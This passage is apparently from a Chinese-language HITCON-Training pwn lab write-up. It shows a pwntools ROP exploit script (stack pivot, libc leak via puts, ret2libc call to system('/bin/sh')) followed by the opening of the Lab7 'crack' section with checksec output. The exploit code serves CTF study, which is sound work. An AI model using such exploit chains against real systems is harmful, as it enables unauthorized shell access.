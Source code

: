 ```python
rop = offset * "a"
rop += p32(rwaddr) # fake ebp
rop += p32(read_plt) # retn addr
rop += p32(leaveret) # retn addr of read
rop += p32(0) # arg1
rop += p32(rwaddr) # arg2
rop += p32(100) # arg3

p.send(rop)
from time import sleep
sleep(0.1)
# gdb.attach(p)
rop = p32(rwaddr + 0x100) # fake ebp
rop += p32(puts_plt) # retn addr
rop += p32(pop1) # retn addr of puts_plt
rop += p32(elf.got['__libc_start_main'])
rop += p32(read_plt) # after pop 1
rop += p32(leaveret)
rop += p32(0) # arg1
rop += p32(rwaddr + 0x100) #arg2
rop += p32(100) #arg2

p.sendline(rop)

addr = u32(p.recvline()[:4])
libc.address = addr - libc.symbols['__libc_start_main']
system = libc.symbols['system']
binsh = next(libc.search("/bin/sh"))

rop = p32(rwaddr)
rop += p32(system)
rop += p32(0xdeadbeef)
rop += p32(binsh)

p.sendline(rop)

p.interactive()

```

## Lab7——Crack ##

### 防护 ###

开了canary，栈利用应该比较困难。

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab7$ checksec crack
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab7/crack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)


```
